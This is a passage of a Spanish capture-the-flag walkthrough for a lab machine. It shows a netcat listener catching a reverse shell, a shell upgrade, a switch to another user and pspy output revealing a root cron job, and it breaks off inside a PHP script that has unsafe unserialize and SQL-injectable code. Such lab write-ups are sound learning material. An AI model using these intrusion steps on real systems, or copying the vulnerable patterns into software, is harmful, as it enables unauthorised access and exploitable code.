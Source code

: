 ```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.145] 44372
bash: cannot set terminal process group (2274): Inappropriate ioctl for device
bash: no job control in this shell
www-data@player:/var/www/demo/test$ script /dev/null -c bash
script /dev/null -c bash
www-data@player:/var/www/demo/test$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
            reset xterm
www-data@player:/var/www/demo/test$ export TERM=xterm-color
www-data@player:/var/www/demo/test$ export SHELL=bash
www-data@player:/var/www/demo/test$ stty rows 55 columns 209
www-data@player:/var/www/demo/test$ source /etc/skel/.bashrc 
```

El servicio lo ejecuta la máquina host, no un contenedor

```null
www-data@player:/var/www/demo/test$ hostname -I
10.10.10.145 dead:beef::250:56ff:feb9:10f5 
```

Me conecto como ```telegen``` empleando una ```bash```

```null
www-data@player:/tmp$ su telegen -s /bin/bash
Password: 
telegen@player:/tmp$ 
```

Subo el ```pspy``` para detectar tareas que se ejecutan en intervalos regulares de tiempo

```null
2023/10/14 15:24:01 CMD: UID=0    PID=7043   | CRON 
2023/10/14 15:24:01 CMD: UID=0    PID=7045   | /usr/bin/php /var/lib/playbuff/buff.php 
2023/10/14 15:24:01 CMD: UID=0    PID=7044   | /bin/sh -c /usr/bin/php /var/lib/playbuff/buff.php > /var/lib/playbuff/error.log 
```

Se está ejecutando un script en PHP

```null
telegen@player:/tmp$ cat /var/lib/playbuff/buff.php
<?php
include("/var/www/html/launcher/dee8dc8a47256c64630d803a4c40786g.php");
class playBuff
{
	public $logFile="/var/log/playbuff/logs.txt";
	public $logData="Updated";

	public function __wakeup()
	{
		file_put_contents(__DIR__."/".$this->logFile,$this->logData);
	}
}
$buff = new playBuff();
$serialbuff = serialize($buff);
$data = file_get_contents("/var/lib/playbuff/merge.log");
if(unserialize($data))
{
	$update = file_get_contents("/var/lib/playbuff/logs.txt");
	$query = mysqli_query($conn, "update stats set status='$update' where id=1");
	if($query)
	{
		echo 'Update Success with serialized logs!';
```